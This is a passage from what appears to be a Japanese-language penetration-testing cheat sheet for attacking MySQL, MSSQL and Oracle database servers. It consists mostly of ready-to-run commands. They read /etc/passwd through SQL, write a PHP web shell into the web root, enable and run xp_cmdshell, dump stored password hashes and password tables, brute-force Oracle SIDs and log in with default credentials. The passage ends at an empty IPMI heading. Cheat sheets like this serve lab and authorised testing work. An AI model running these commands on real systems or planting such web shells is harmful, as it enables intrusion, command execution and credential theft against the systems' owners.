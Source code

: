 - 接続
```
mysql -u root -pP4SSw0rd -h $Target_IP
```

- ファイル読込 / 書込
```
SELECT LOAD_FILE('/etc/passwd');
SELECT "<?php system($_GET[cmd]);?>" INTO OUTFILE '/var/www/html/shell.php';
```

- 情報表示
```
show databases;          -- DB 一覧
show tables;             -- テーブル一覧
show columns from <tbl>; -- カラム
```


## MSSQL

- nmap スクリプトセット
```
sudo nmap -p1433 --script ms-sql-* $Target_IP
```

- mssqlclient 接続
```
impacket-mssqlclient Administrator@$Target_IP -windows-auth
enable_xp_cmdshell       # cmdshell 有効化
xp_cmdshell whoami
```

- ハッシュ取得
```
SELECT name,password_hash FROM master.sys.sql_logins;
```


## Oracle TNS
- odat で SID ブルート
```
./odat.py all -s $Target_IP
```

- sqlplus 接続
```
sqlplus scott/tiger@$Target_IP/XE
```

- パスワード一覧取得
```
select name,password from sys.user$;
```


## IPMI
